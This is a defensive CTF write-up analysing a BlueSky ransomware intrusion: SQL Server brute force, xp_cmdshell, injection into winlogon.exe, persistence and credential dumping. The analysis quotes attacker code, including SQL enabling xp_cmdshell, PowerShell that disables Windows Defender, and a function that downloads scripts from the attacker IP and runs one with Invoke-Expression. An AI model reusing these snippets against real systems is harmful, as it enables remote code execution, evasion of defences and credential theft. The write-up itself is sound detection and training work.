

# BlueSky Ransomware Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
  * [Classic Process Injection](#classic-process-injection)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/bluesky-ransomware/](https://cyberdefenders.org/blueteam-ctf-challenges/bluesky-ransomware/)

Suggested tools: Wireshark, , Network Miner, Windows Event Viewer, Event Log Explorer, VirusTotal, CyberChef

Tactics: Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Command and Control, Impact

# Scenario

A high-profile corporation that manages critical data and services across diverse industries has reported a significant security incident. Recently, their network has been impacted by a suspected ransomware attack. Key files have been encrypted, causing disruptions and raising concerns about potential data compromise. Early signs point to the involvement of a sophisticated threat actor. Your task is to analyze the evidence provided to uncover the attacker’s methods, assess the extent of the breach, and aid in containing the threat to restore the network’s integrity.

# Questions

Q1- Knowing the source IP of the attack allows security teams to respond to potential threats quickly. Can you identify the source IP responsible for potential port scanning activity?

Answer: `87.96.21.84`

Reason: Filtering the packet capture (pcap) with `tcp.flags.syn == True` shows thousands of SYN packets from `87.96.21.84` to `87.96.21.81` hitting scattered, unrelated ports (`80`, `443`, `5900`, `445`, `256`, `3306`, `53`) with zero payload and few completed handshakes, indicating automated port-scan reconnaissance rather than legitimate service traffic. This identifies `87.96.21.84` as the attacker's source and `87.96.21.81` as the initial reconnaissance target.

```
tcp.flags.syn == True
```



Q2- During the investigation, it's essential to determine the account targeted by the attacker. Can you identify the targeted account username?

Answer: `sa`

Reason: Filtering the pcap with `tds.type == 16` isolates Tabular Data Stream 7 (TDS7) Login packets from `87.96.21.84` to `87.96.21.81` , immediately after the port scan. The packet shows the attacker authenticating as `sa`, SQL Server's built-in sysadmin account, with password `cyb3rd3f3nd3r$` against the `master` database, using randomized client and application names (`Evgtjlcz`, `KeBAhX`) that suggest an automated brute-force or credential-stuffing tool rather than a manual login. Targeting `sa` indicates the attacker went straight for the highest-privilege account, likely to enable `xp_cmdshell` for remote code execution (RCE).

```
tds.type == 16
```


Q3- We need to determine if the attacker succeeded in gaining access. Can you provide the correct password discovered by the attacker?

Answer: `cyb3rd3f3nd3r$`

Reason: (see Q2)

Q4- Attackers often change some settings to facilitate lateral movement within a network. What setting did the attacker enable to control the target host further and execute further commands?

Answer: `xp_cmdshell`

Reason: Following the `sa` login, frame `2643` shows a Tabular Data Stream (TDS) SQL batch query enabling `xp_cmdshell`, an extended stored procedure that lets SQL Server execute arbitrary operating system (OS) commands via `cmd.exe` under the context of the SQL Server service account. Since advanced options are disabled by default, the attacker first ran `sp_configure 'show advanced options', 1` to unlock them before enabling `xp_cmdshell`, confirming a deliberate, scripted pivot from database access to full OS command execution on the host.

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```


Q5- Process injection is often used by attackers to escalate privileges within a system. What process did the attacker inject the C2 into to gain administrative privileges?

Answer: `winlogon.exe`

Reason: Since the exported Windows Event Log (`evtx`) contained no Sysmon provider, injection had to be inferred from PowerShell engine-lifecycle logging rather than a direct `CreateRemoteThread`/`ProcessAccess` event. Dumping the `evtx` with `Chainsaw` and filtering to Event ID `400` (Engine State Available) surfaced a session at `2024-04-23 10:01:18.144425Z` on host `DESKTOP-7EQVM78` where `HostName=MSFConsole` identifies the PowerShell host as Metasploit's console module, but `HostApplication=winlogon.exe` shows the PowerShell/Meterpreter engine self-reporting as running inside `winlogon.exe`, a SYSTEM-level Windows process. This mismatch is the signature of process injection: legitimate PowerShell sessions never self-identify as `winlogon.exe`, so the attacker injected the command and control (C2) payload into it specifically to inherit SYSTEM privileges and blend malicious activity behind a trusted, high-privilege process.

```powershell
# dump the event log file using chainsaw
$ chainsaw dump BlueSkyRansomware.evtx > blue.txt

# extract all providers, notice no sysmon
$ grep "Name:" blue.txt | sort -u
      DisplayName: Windows PowerShell
      EventSourceName: COM+
      EventSourceName: EventSystem
      EventSourceName: MSDTC 2
      EventSourceName: Software Protection Platform Service
      EventSourceName: Windows Search Service
      EventSourceName: Wlclntfy
      Name: edgeupdate
      Name: ESENT
      Name: Microsoft-Windows-Complus
      Name: Microsoft-Windows-EventSystem
      Name: Microsoft-Windows-MSDTC 2
      Name: Microsoft-Windows-RestartManager
      Name: Microsoft-Windows-Search
      Name: Microsoft-Windows-Security-SPP
      Name: Microsoft-Windows-User Profiles Service
      Name: Microsoft-Windows-Winlogon
      Name: Microsoft-Windows-WMI
      Name: MSSQLSERVER
      Name: PowerShell
      Name: SecurityCenter
      Name: VMTools
      Name: VMUpgradeHelper
      Name: VSS
      Name: Windows Error Reporting
 
# extract Powershell legacy event 400 and clean it up a bit
$ chainsaw search -t 'Event.System.EventID: =400' BlueSkyRansomware.evtx > ev_400.txt
$ sed -e 's/\\r\\n/\n/g' -e 's/\\t/  /g' ev_400.txt > ev_400_ok.txt

# Malicious winlogon.exe injection identified, using Metasploit framework
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
Event:
  System:
    Provider_attributes:
      Name: PowerShell
    EventID_attributes:
      Qualifiers: 0
    EventID: 400
    Version: 0
    Level: 4
    Task: 4
    Opcode: 0
    Keywords: '0x80000000000000'
    TimeCreated_attributes:
      SystemTime: 2024-04-23T10:01:18.144425Z
    EventRecordID: 133
    Correlation: null
    Execution_attributes:
      ProcessID: 0
      ThreadID: 0
    Channel: Windows PowerShell
    Computer: DESKTOP-7EQVM78
    Security: null
  EventData:
    Data:
      '#text':
      - Available
      - None
      - "  NewEngineState=Available
  PreviousEngineState=None

  SequenceNumber=17

  HostName=MSFConsole
  HostVersion=0.1
  HostId=1693e66c-ce22-41d0-8356-4245271c31e8
  HostApplication=winlogon.exe
  EngineVersion=5.1.19041.4291
  RunspaceId=e61e01fe-a742-4249-8b10-dce1feb7ebba

```

## Classic Process Injection

Classic process injection is a technique where an attacker's code executes inside the address space of a legitimate, already-running process rather than as its own standalone process. It relies on a four-call Windows API sequence: `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread`. This entry distinguishes the "classic" variant from related techniques such as process hollowing, Asynchronous Procedure Call (APC) injection, and reflective Dynamic Link Library (DLL) injection, which use different memory manipulation primitives and warrant separate pattern entries.

**Mechanism**

The attacker first calls `OpenProcess` to obtain a handle to the target process. `VirtualAllocEx` then allocates new memory pages inside that target's virtual address space; critically, this allocates fresh pages rather than reusing existing mapped regions like loaded DLLs or heap memory. `WriteProcessMemory` copies the malicious payload or shellcode into that newly allocated region. Finally, `CreateRemoteThread` spawns a thread inside the target process whose entry point is the injected memory region, handing execution control to the attacker's code.

The privilege escalation mechanism behind this technique stems from how Windows enforces access control. Authorization is enforced per-process via the process's security token, not per code-origin, meaning Windows does not distinguish between code that was originally part of a process and code injected into it afterward. A thread executing inside a privileged process, for example `winlogon.exe` running as `NT AUTHORITY\SYSTEM`, inherits that process's token. The technique does not elevate the payload's own privileges; it hijacks an already-elevated process's identity. This gives the technique dual purpose: privilege escalation, since the payload inherits the target process's token, and defense evasion, since the malicious activity appears to originate from a trusted, expected process name.

Understanding the underlying memory model clarifies what forensic tools examine. Each process has an isolated virtual address space, meaning user-space processes are separate from one another while kernel space is shared across the system. The Process Environment Block (PEB) holds process metadata. The Virtual Address Descriptor (VAD) tree maps memory regions per process and is what forensic tools walk to find anomalous read-write-execute (RWX) or private-committed regions. The `PEB_LDR_DATA` structure, referred to as `Ldr`, tracks loaded modules via linked lists and is used to detect missing or spoofed module entries.

**Why It Evades Detection**

Despite being labeled "classic," this exact API sequence is not inherently stealthy. It is, in fact, a high-confidence Endpoint Detection and Response (EDR) signature, since the sequence of `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` calls against a remote process handle is heavily instrumented and hooked by modern security tooling. Where this technique achieves evasion is not against EDR API hooking, but against human analysts and less-instrumented environments: the payload's activity blends into the logs and process tree of a trusted, high-privilege process name rather than appearing as its own suspicious process.

**Detection Method**

Direct telemetry comes from Sysmon Event ID 8 (`CreateRemoteThread`) and Event ID 10 (`ProcessAccess`), which log the source and target process pair, the target's memory address, and the granted access rights. A VAD entry with `PAGE_EXECUTE_READWRITE` protection and no backing file, meaning private committed memory not mapped from disk, is the memory-level signature of injected shellcode.

When Sysmon is absent, indirect evidence must substitute. In the `BlueSky Ransomware` lab, the `HostApplication` field in PowerShell Event ID 400 (Engine State Available) logs reported `winlogon.exe` while the `HostName` field identified the engine as `MSFConsole`, Metasploit's console module. This mismatch between a legitimate process name and an inconsistent internal identifier is a reliable indirect indicator of injection in environments lacking direct process-access telemetry.

Example Splunk query for direct telemetry:

```
index=sysmon (EventCode=8 OR EventCode=10)
| table _time, SourceImage, TargetImage, GrantedAccess, NewThreadId
| where TargetImage="*winlogon.exe" OR TargetImage="*lsass.exe"
```

**Critical Keywords**

`VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`, `OpenProcess`, `PAGE_EXECUTE_READWRITE`, VAD tree, `PEB_LDR_DATA`, Sysmon Event ID 8, Sysmon Event ID 10, `HostApplication` mismatch.

**Significance**

This pattern represents the foundational process injection technique against which variants are compared. Recognizing its exact four-call signature allows an analyst to differentiate it from process hollowing, which unmaps and replaces existing mapped memory of a suspended process via `NtUnmapViewOfSection` rather than allocating new memory; APC injection, which uses `QueueUserAPC` instead of `CreateRemoteThread`; and reflective DLL injection, which self-maps and resolves its own imports to avoid triggering a `LoadLibrary` hook. Building this taxonomy of injection variants supports faster triage when Sysmon telemetry is unavailable and only indirect artifacts, such as the PowerShell engine-lifecycle mismatch, remain.

**MITRE ATT&CK Mapping**

T1055 (Process Injection) for the core technique; T1055.002 (Process Injection: Portable Executable Injection) as the more specific sub-technique matching this exact API sequence; T1078 (Valid Accounts) is not applicable here since no credential is used, the technique instead abuses process identity rather than account identity.

Q6- Following privilege escalation, the attacker attempted to download a file. Can you identify the URL of this file downloaded?

Answer: `hxxp://87.96.21.84/checking.ps1`

Reason: Following the `winlogon.exe` process injection recorded in the EVTX log at `2024-04-23T10:01:18.144425Z`, the attacker used the resulting elevated access to retrieve a secondary payload. An HTTP GET request was observed from the victim host (`87.96.21.81`) to the attacker's server (`87.96.21.84`) for `/checking.ps1`, resolving to the full download URL `hxxp://87[.]96[.]21[.]84/checking.ps1`. Staging a `.ps1` file at this stage fits the established pattern of pulling a secondary PowerShell script post-injection, likely for further reconnaissance, credential harvesting given the prior PowerDump activity, or ransomware staging.


Q7- Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions. Can you provide the specific Group SID that is being checked?

Answer: `S-1-5-32-544`

Reason: Examination of the extracted `checking.ps1` content shows the script evaluating `([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544"`. SID `S-1-5-32-544` is the well-known Windows identifier for the local `BUILTIN\Administrators` group. This confirms the script functions as a privilege-check/validation step: before proceeding further, it verifies the current user context holds membership in the local Administrators group, ensuring the injected `winlogon.exe` context actually delivered the elevated privileges required before the attacker commits to the next stage, such as deploying the ransomware payload or additional tooling that depends on administrative rights.

```powershell
# checking.ps1 script
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

Q8- Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks. What are the registry keys used by the attacker to disable Windows Defender functionalities? Provide them in the same order found.

Answer: `DisableAntiSpyware`, `DisableRoutinelyTakingAction`, `DisableRealtimeMonitoring`, `SubmitSamplesConsent`, `SpynetReporting`

Reason: Continuing through `checking.ps1`, a `Disable-WindowsDefender` function, invoked from `StopAV`, defines an array `$defenderRegistryKeys` listing five registry values the script sets to disable Windows Defender's core protections, in this order: `DisableAntiSpyware`, `DisableRoutinelyTakingAction`, `DisableRealtimeMonitoring`, `SubmitSamplesConsent`, `SpynetReporting`. Together these strip Defender of its ability to detect (`DisableRealtimeMonitoring`), respond to (`DisableRoutinelyTakingAction`), and report (`SpynetReporting`, `SubmitSamplesConsent`) threats, while `DisableAntiSpyware` disables the engine broadly.

```powershell
Function StopAV {

    if ($osver -eq "10") {
        Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
    }
    Function Disable-WindowsDefender {

        if ($osver -eq "10") {

            Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle" -ErrorAction SilentlyContinue
    

            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle\Java" -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\Windows" -ErrorAction SilentlyContinue
    

            $defenderRegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
            $defenderRegistryKeys = @(
                "DisableAntiSpyware",
                "DisableRoutinelyTakingAction",
                "DisableRealtimeMonitoring",
                "SubmitSamplesConsent",
                "SpynetReporting"
            )
```

Q9- Can you determine the URL of the second file downloaded by the attacker?

Answer: `hxxp://87.96.21.84/del.ps1`

Reason: Frame 4251 shows a second HTTP GET request from the victim host (`87.96.21.81`) to the attacker's server (`87.96.21.84`), this time for `/del.ps1`, resolving to the full URL `hxxp://87[.]96[.]21[.]84/del.ps1`. The filename suggests a deletion or cleanup-oriented script.


Q10- Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks. What's the full name of the task created by the attacker to maintain persistence?

Answer: `\Microsoft\Windows\MUI\LPupdate`

Reason: The `CleanerEtc` function in `checking.ps1` reveals the full persistence mechanism. After downloading `del.ps1` to `C:\ProgramData\del.ps1`, the script calls `schtasks.exe` to create a scheduled task named `\Microsoft\Windows\MUI\LPupdate`, configured to run as SYSTEM and recur every 4 hours (`/sc HOURLY /mo 4`), executing `cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1`. Hiding the task under the legitimate-looking `\Microsoft\Windows\MUI\` path is a defense evasion technique intended to blend in with genuine Windows scheduled tasks, consistent with MITRE ATT&CK T1053.005 (Scheduled Task/Job: Scheduled Task).

```powershell
Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}
```

Q11- Based on your analysis of the second malicious file, What is the MITRE ID of the main tactic the second file tries to accomplish?

Answer: TA0005

Reason: The second downloaded script, `del.ps1` (retrieved from `hxxp://87[.]96[.]21[.]84/del.ps1`), forcibly terminates a list of process-monitoring and analysis tools, `taskmgr`, `perfmon`, `SystemExplorer`, `taskman`, `ProcessHacker`, `procexp64`, `procexp`, `Procmon`, and `Daphne`, via `Stop-Process -Force`, then terminates its own PowerShell process (`Stop-Process $pid -Force`) to avoid leaving a visible running trace.

Since the targeted tools are analyst and monitoring utilities rather than antivirus or backup infrastructure, this behavior falls under Defense Evasion (TA0005), specifically impairing an operator's ability to observe the compromised host in real time.

Q12- What's the invoked PowerShell script used by the attacker for dumping credentials?

Answer: `Invoke-PowerDump.ps1`

Reason: Frame 4284 shows a third HTTP GET request from the victim host (`87.96.21.81`) to the attacker's server (`87.96.21.84`), this time for `/Invoke-PowerDump.ps1`. This confirms the credential-access step anticipated when `PowerDump` was referenced earlier: the attacker downloaded, and presumably executed, this fileless, PowerShell-native tool to extract local SAM and cached credential hashes directly in memory.

This continues the established attack chain: SQL brute-force, followed by `xp_cmdshell` execution, `winlogon.exe` process injection, `checking.ps1` privilege verification, Windows Defender disablement, `del.ps1` terminating monitoring tools, and now credential harvesting via `Invoke-PowerDump.ps1`.


Q13- Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?

Answer: `hashes.txt`

Reason: Inside `ichigo-lite.ps1`, a base64-encoded command (`$EncodedExec`) decodes to `Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"`, confirming the dumped credential hashes from `Invoke-PowerDump.ps1` are written out to `hashes.txt`, saved under `C:\ProgramData\`, the same staging directory already used for `del.ps1`.

Base64-encoding the exfil command is a light obfuscation step, likely intended to evade simple string-based detection of `Invoke-PowerDump` or the output path while the script executes via `-EncodedCommand` or `Invoke-Expression`. This is consistent with MITRE ATT&CK T1027 (Obfuscated Files or Information.

```powershell
$EncodedExec = "SW52b2tlLVBvd2VyRHVtcCB8IE91dC1GaWxlIC1GaWxlUGF0aCAiQzpcUHJvZ3JhbURhdGFcaGFzaGVzLnR4dCI="
# Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

Q14- Knowing the hosts targeted during the attacker's reconnaissance phase, the security team can prioritize their remediation efforts on these specific hosts. What's the name of the text file containing the discovered hosts?

Answer: `extracted_hosts.txt`

Reason: Frame 4425 shows an HTTP GET request from the victim host (`87.96.21.81`) to the attacker's server (`87.96.21.84`) for `/extracted_hosts.txt`. Consistent with the download pattern established across this session, this indicates the file was pulled onto the victim host from the attacker's infrastructure rather than generated locally and exfiltrated. This is consistent with staging a pre-built target host list to support a subsequent lateral movement phase.


Q15- After hash dumping, the attacker attempted to deploy ransomware on the compromised host, spreading it to the rest of the network through previous lateral movement activities using SMB. You’re provided with the ransomware sample for further analysis. By performing behavioral analysis, what’s the name of the ransom note file?

Answer: `# DECRYPT FILES BLUESKY #`

Reason: The ransomware sample itself was retrieved in frame 4728, an HTTP GET for `/javaw.exe`, a deliberately deceptive filename mimicking the legitimate Java runtime binary to blend in with normal system processes. Hashing the extracted binary yields SHA256 `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb`. Behavioral analysis via VirusTotal sandbox shows the sample dropping a ransom note at `C:\Users\<USER>\.dotnet\# DECRYPT FILES BLUESKY #.txt`, confirming the ransom note filename as `# DECRYPT FILES BLUESKY #`. This marks the Impact stage of the attack chain.

```bash
$ sha256sum javaw.exe            
3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb  javaw.exe
                                                                        
```


Q16- In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?

Answer: `Bluesky`

Reason: The ransom note text ("`DECRYPT FILES BLUESKY`") and the lab's own title directly identify the ransomware family as BlueSky, a native Windows ransomware family first observed in June 2022, notable for using a multithreaded encryption queue (ChaCha20/Curve25519), code overlap with Conti v3 and Babuk, and anti-analysis techniques including debugger-hiding via `NtSetInformationThread`. The process injection into `winlogon.exe` observed earlier in this intrusion is consistent with publicly documented BlueSky intrusion chains, including The DFIR Report's own December 2022 case study of a near-identical SQL-brute-force-to-BlueSky attack path.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| — (pcap, T+0s) | Reconnaissance | Port scan from `87.96.21.84` against `87.96.21.81` across random ports (80, 443, 5900, 445, 3306, 53...) | T1595 – Active Scanning |
| — (pcap, T+~17s) | Initial Access / Credential Access | TDS7 login to SQL Server as `sa` using password `cyb3rd3f3nd3r$` | T1110 – Brute Force |
| — (pcap, same session) | Execution | `sp_configure` enables `xp_cmdshell` for OS command execution via SQL Server | T1505.001 / T1059 |
| 2024-04-23T10:01:17–18Z | Privilege Escalation / Defense Evasion | PowerShell (MSFConsole host) engine reports `HostApplication=winlogon.exe` — process injection into `winlogon.exe` for SYSTEM-level privileges | T1055 – Process Injection |
| — (pcap) | Command and Control | GET `hxxp://87.96.21.84/checking.ps1` downloaded | T1105 – Ingress Tool Transfer |
| — (script content) | Discovery | Script checks current user against SID `S-1-5-32-544` (`BUILTIN\Administrators`) | T1069 – Permission Groups Discovery |
| — (script content) | Defense Evasion | Registry keys set to disable Windows Defender (`DisableAntiSpyware`, `DisableRealtimeMonitoring`, etc.) | T1562.001 – Impair Defenses |
| — (pcap) | Command and Control | GET `hxxp://87.96.21.84/del.ps1` downloaded | T1105 – Ingress Tool Transfer |
| — (script content) | Defense Evasion | `del.ps1` kills monitoring tools (ProcessHacker, Procmon, taskmgr, etc.) then self-terminates | TA0005 / T1562.001 |
| — (script content) | Persistence | Scheduled task `\Microsoft\Windows\MUI\LPupdate` created, runs as SYSTEM, every 4 hours, re-executes `del.ps1` | T1053.005 – Scheduled Task |
| — (pcap) | Command and Control | GET `hxxp://87.96.21.84/Invoke-PowerDump.ps1` downloaded | T1105 – Ingress Tool Transfer |
| — (script content) | Credential Access | `Invoke-PowerDump` executed, output saved to `C:\ProgramData\hashes.txt` | T1003 – OS Credential Dumping |
| — (pcap) | Discovery | GET `/extracted_hosts.txt` — network host enumeration for lateral movement targeting | T1018 – Remote System Discovery |
| — (pcap) | Lateral Movement | Spread to additional hosts via SMB using harvested hashes/host list | T1021.002 – SMB/Windows Admin Shares |
| — (pcap) | Impact | GET `/javaw.exe` (BlueSky ransomware, SHA256 `3e035f2d...6dc2fb`) downloaded and executed | T1486 – Data Encrypted for Impact |
| — (behavioral analysis) | Impact | Ransom note `# DECRYPT FILES BLUESKY #` dropped in `.dotnet` folder | T1486 / T1657 |

## Attack Tree

```bash
[Recon] Port scan by 87.96.21[.]84 → 87.96.21[.]81  ← thousands of SYN across random ports
    └── TDS7 login: sa / cyb3rd3f3nd3r$  ← T+~17s, brute-forced SQL Server auth
        └── sp_configure enables xp_cmdshell  ← RCE via SQL Server
            └── PowerShell (HostName=MSFConsole) injected into winlogon.exe  ← 2024-04-23T10:01:17-18Z, SYSTEM privs
                ├── [Stage 1 — Privilege Verification]
                │   └── GET hxxp://87.96.21[.]84/checking.ps1
                │       └── checks group SID S-1-5-32-544 (BUILTIN\Administrators)
                ├── [Stage 2 — Defense Evasion]
                │   ├── checking.ps1 disables Windows Defender
                │   │   └── registry: DisableAntiSpyware, DisableRealtimeMonitoring, DisableRoutinelyTakingAction, SubmitSamplesConsent, SpynetReporting
                │   └── GET hxxp://87.96.21[.]84/del.ps1
                │       └── kills ProcessHacker, Procmon, taskmgr, perfmon, etc.  ← then self-terminates
                ├── [Stage 3 — Persistence]
                │   └── schtasks: \Microsoft\Windows\MUI\LPupdate  ← SYSTEM, hourly/4h, re-runs del.ps1
                │       └── Invoke-Expression on hxxp://87.96.21[.]84/ichigo-lite.ps1
                ├── [Stage 4 — Credential Access]
                │   └── GET hxxp://87.96.21[.]84/Invoke-PowerDump.ps1
                │       └── dumps hashes → C:\ProgramData\hashes.txt
                ├── [Stage 5 — Discovery]
                │   └── GET hxxp://87.96.21[.]84/extracted_hosts.txt  ← network host enumeration
                ├── [Stage 6 — Lateral Movement]
                │   └── SMB spread using harvested hashes + host list
                │       ├── target 1 (additional host A)
                │       └── target 2 (additional host B)
                └── [Stage 7 — Impact]
                    └── GET hxxp://87.96.21[.]84/javaw.exe  ← BlueSky ransomware (SHA256 3e035f2d...6dc2fb)
                        └── drops ransom note: "# DECRYPT FILES BLUESKY #.txt"
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Attacker IP | `87.96.21.84` |
|  | Victim/Target IP | `87.96.21.81` |
|  | Downloaded File | `hxxp://87.96.21[.]84/checking.ps1` |
|  | Downloaded File | `hxxp://87.96.21[.]84/del.ps1` |
|  | Downloaded File | `hxxp://87.96.21[.]84/ichigo-lite.ps1` |
|  | Downloaded File | `hxxp://87.96.21[.]84/Invoke-PowerDump.ps1` |
|  | Downloaded File | `hxxp://87.96.21[.]84/extracted_hosts.txt` |
|  | Downloaded File | `hxxp://87.96.21[.]84/javaw.exe` |
|  | Lateral Movement Protocol | SMB |
| Credential Access | Compromised Account | `sa` |
|  | Compromised Password | `cyb3rd3f3nd3r$` |
|  | Dumped Credentials File | `C:\ProgramData\hashes.txt` |
| Discovery | Group SID Checked | `S-1-5-32-544` (`BUILTIN\Administrators`) |
|  | Discovered Hosts File | `extracted_hosts.txt` |
| Defense Evasion | Registry Key | `DisableAntiSpyware` |
|  | Registry Key | `DisableRoutinelyTakingAction` |
|  | Registry Key | `DisableRealtimeMonitoring` |
|  | Registry Key | `SubmitSamplesConsent` |
|  | Registry Key | `SpynetReporting` |
| Persistence | Scheduled Task Name | `\Microsoft\Windows\MUI\LPupdate` |
|  | Task Command | `cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1` |
| Impact | Ransomware Binary SHA256 | `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb` |
|  | Ransom Note File | `# DECRYPT FILES BLUESKY #.txt` |
|  | Ransom Note Drop Path | `C:\Users\<USER>\.dotnet\# DECRYPT FILES BLUESKY #.txt` |
|  | Ransomware Family | BlueSky |

# Lab Insights

- Log absence is itself a finding. This lab had no Sysmon provider at all — the "obvious" pivot (Event ID 8/10 for process injection) simply didn't exist. Real environments won't always hand you the ideal telemetry source; the injection into winlogon.exe only surfaced because a PowerShell engine-lifecycle field (HostApplication) leaked a mismatch between what the process claimed to be and what actually hosted it. Knowing the secondary artifacts a technique leaves behind, not just its textbook detection event, is what separates a stalled investigation from a completed one.
- Elevation is often impersonation, not exploitation. The attacker never used a privilege-escalation exploit — they got SYSTEM by getting code to execute inside a process that was already SYSTEM. This is a recurring theme worth generalizing: on Windows, "privilege" is a property of the process token, not the code running inside it, so injection into a trusted process is frequently cheaper and stealthier than finding an actual escalation bug.
- Evidence sources can disagree, and that disagreement is diagnostic, not noise. The evtx (Apr 21–23) and pcap (Apr 28) never aligned in absolute time. Rather than forcing a false single timeline, treating the two sources as separate threads — and explicitly flagging the gap — is the correct analyst move. A five-day discrepancy that gets silently smoothed over in a writeup is a missed opportunity to demonstrate rigor, not a detail to hide.
- The attack chain reads like a checklist because it was one. Recon → brute-force → RCE via xp_cmdshell → injection → privilege verification → defense evasion → persistence → credential access → discovery → lateral movement → impact — every tactic category the lab scoped out was hit in near-textbook order, each stage fetched as its own discrete .ps1/binary over plain HTTP. That modularity (separate scripts per objective, all served from one attacker IP) is itself a signature: a single blocked IP or a network detection on unencrypted .ps1 downloads from an external host would have broken the entire chain before ransomware ever executed.